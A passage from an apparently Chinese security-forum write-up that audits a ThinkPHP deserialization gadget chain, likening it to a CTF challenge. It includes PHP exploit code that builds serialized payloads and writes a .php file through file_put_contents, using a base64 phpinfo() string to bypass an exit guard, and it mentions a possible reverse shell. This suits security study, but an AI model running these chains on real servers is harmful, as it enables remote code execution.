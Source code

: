 ```php

namespace think\cache\driver{
    use think\cache\Driver;
    class File extends Driver{}
}

namespace{
    $file = new think\cache\driver\File();
    $cache = new think\filesystem\CacheStore($file);
    echo base64_encode(serialize($cache));
}

?>
```

无回显，可以反弹shell 有时间再搭环境测试

##### 分支2.3

如果我们继续向下审计，就可以发现 这里 有一处`file_put_content`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-6b6ba43400cc3dac3b3a664bc9e4bce50d8bac87.png)

同时`data`处还有诸多限制，比如死亡exit 当然死亡exit是可以绕过的 这里肯定是被出成过题目的

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-7fc52b7f01ae1d6972af99bf97e5833ecf72fee3.png)

翻到了 \[EIS 2019\]EzPOP

只能说是完全一样，我们继续往下看这条链子叭，就当重新做一遍那一道题

主要就是审一下file\_put\_content内的这两个点

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-12c9acf2a0a9a6bf4b938e2c8e8f7dda3b8be307.png)

先看到文件名处

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-7a3643d16e5d312ca7b82ffce5b51071e16a8a2c.png)

显然我们是可控的，通过`'hash_type' => 'md5'` ，`$name`也就是使劲往上翻，调用`set`时的`key` 显然也是我们可操控的，比如"sp4c1ous"的md5，也就是`23a8cff068206a303c08080b1bedf3c7`我们的文件名便为`23a8cff068206a303c08080b1bedf3c7.php`

接下来就是这里了

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-87c4b8c45cab7196540fa1447b8be758cd65a1d9.png)

这里可以参考[P牛的文章](https://www.leavesongs.com/PENETRATION/php-filter-magic.html) 就不多说了

其余的大部分内容其实和上面一条链是类似的

exp

```php
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "aaaPD9waHAgcGhwaW5mbygpOz8+"; //绕过死亡exit
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

```